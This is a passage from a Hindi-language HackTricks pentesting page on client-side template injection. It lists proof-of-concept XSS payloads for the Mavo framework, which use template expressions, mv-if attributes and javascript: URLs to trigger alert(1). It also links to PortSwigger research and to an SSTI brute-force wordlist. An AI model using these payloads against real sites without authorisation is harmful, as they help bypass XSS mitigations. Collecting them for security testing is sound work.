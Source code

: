 श्रेणी: ग्राहक-साइड टेम्पलेट इंज
```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
**अधिक payloads** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

# **ब्रूट-फोर्स डिटेक्शन सूची**

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt" %}


<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
